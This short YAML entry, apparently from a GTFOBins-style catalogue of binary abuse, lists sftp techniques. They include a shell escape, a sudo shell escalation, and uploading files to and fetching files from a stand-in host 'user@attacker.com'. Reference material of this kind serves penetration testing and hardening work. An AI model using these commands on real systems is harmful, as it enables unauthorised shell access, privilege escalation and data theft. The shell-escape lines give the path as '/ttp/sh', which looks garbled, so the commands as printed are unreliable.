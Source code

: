 ```yaml
---
functions:
  shell:
    - code: |
        HOST=user@attacker.com
        sftp $HOST
        !/ttp/sh
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        put file_to_send file_to_save
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        get file_to_get file_to_save
  sudo:
    - code: |
        HOST=user@attacker.com
        sudo sftp $HOST
        !/ttp/sh
---
```

